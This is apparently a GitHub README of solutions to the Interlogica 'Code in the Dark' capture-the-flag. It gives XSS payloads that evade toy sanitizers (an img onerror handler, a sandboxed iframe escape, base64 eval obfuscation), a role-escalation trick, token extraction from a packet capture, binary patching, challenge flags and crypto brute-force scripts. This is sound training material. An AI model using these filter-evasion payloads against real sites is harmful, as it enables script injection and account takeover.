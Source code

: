 # CTF-CodeInTheDark
Interlogica CTF Code in the dark:
[https://ctf.codeinthedark.dev/challenges](https://ctf.codeinthedark.dev/challenges)

## 1 

Trigger an alert(1) in the small browser by evading the sanitizer's countermeasures. NOTE: the alert must be triggerable offline and without any further actions by the user.
The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // warmup
    return input;
}
```

Hints:  
Browser says `An iframe which has both allow-scripts and allow-same-origin for its sandbox attribute can escape its sandboxing.`.


Solution:
```
<iframe src="http%3A//hithere" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>
<script>
   alert(1);
</script>
```

## 2

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no scripts!
    if (input.toLowerCase().includes('script')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<img src="" onerror=alert(1)>
```

Thanks M9k!

## 3
Just call the function from console.

## 4
Register. Password of moderator is in the user profile image. Get sources as moderator. Sources show that registratin take role too. Register as admin. As admin go to admin page and see flag.


## 5

The page has an input and renders the input after running a function on your code.
```
function sanitize(input) {
    // no alert!
    if (input.toLowerCase().includes('alert')) {
        return 'NO!';
    }
    return input;
}
```

Solution:
```
<iframe src="" 
        scrolling="no" sandbox="allow-scripts allow-popups allow-modals allow-same-origin" 
        name="sandbox" style="width: 100%; height: 100%; border: 0px;"></iframe>

<script>
console.log("hi");
eval(atob('YWxlcnQoMSk7'));
</script>
```

Where `YWxlcnQoMSk7` is `alert(1);`.  
  
Or you can use `eval("al"+"ert(1)")`, thanks pal!
## Forensics - Bad request-1
Open with Wireshark, tools -> credentials, click on the packet, look inside the http and Wireshark automatically will convert the auth bearer to plaintext:
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/11a6c6a6-f99e-419e-a0f9-75564f469f5c)

## Reversing - PWNVOYAGE-LEVEL0 (40 coins)
Bruteforce with some intuition. The code was "TOOYOUNGTODIEBRO", and it return PRLG{HURT_M3_PL3NTY}

## Reversing - PWNVOYAGE-LEVEL1 (90 coins)
Follow the instruction for the file, analyzing the assembly the password is U_R_MY_H3RO, solution NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}.

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/1120c293-8dda-445c-805f-7d55cbb07012)

## Reversing - PWNVOYAGE-LEVEL2 (110 coins)
Follow the instruction for the file, patched the assembly, address 00101764 changed from JZ to JNZ.
![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/5a1df428-719c-4477-ae89-de6dd7e7ec89)

![immagine](https://github.com/aliceblack/CTF-CodeInTheDark/assets/9288402/ea3d815a-7a46-44ca-a1b3-1e427517a326)



## Crypto - Intercepted message (90 coins)
Resolver in Powershell, each character is shifted based on his position, with an overflow when needed
```
function Convert-String {
    param (
        [string]$inputString
    )
    
    $outputString = ""

    for ($i = 0; $i -lt $inputString.Length; $i++) {
        $char = $inputString[$i]
        $asciiValue = [int][char]$char
        $newAsciiValue = $asciiValue - $i
        if ($newAsciiValue -lt 33) {
            $newAsciiValue += 95;
        }
        $newChar = [char]$newAsciiValue
        $outputString += $newChar
        Write-Host "--------------"
        Write-Host $char
        Write-Host $asciiValue
        Write-Host $newAsciiValue
        Write-Host $newChar
    }
    return $outputString
}

# Input string
$inputString = 'NUTOKH"Jin}l~`o{qu&Y$([.},4++#<'

# Call the function and store the result
$result = Convert-String -inputString $inputString

# Output the result
Write-Host "Original string: $inputString"
Write-Host "Transformed string: $result"
```


## Crypto - Space (90 coins)
Bruteforced:
```
#!/usr/bin/env python3
import hashlib
import argparse

ct = "w2a\x7fq'I\tUOLV\\UOQR\\L\x07R\x1c\x12\x07\x04X\x14HRD\x12H"

def md5(msg:str)->str:
    return hashlib.md5(msg.encode()).hexdigest()

def xor(data:str,key:str):    
    return ''.join(chr(ord(a) ^ ord(b)) for a,b in zip(data, key))

def main():
    year = 2023
    month = 1
    day = 1
    while (True):
        key = f"{year:04}-{month:02}-{day:02}"
        hkey = md5(key)
        result = xor(ct, hkey)
        if (result.startswith('NTRLGC')):
            print(result)
        day += 1
        if (day > 31):
            day = 1
            month +=1
            if(month > 12):
                month = 1
                year -= 1

if __name__ == "__main__":
    main()
```


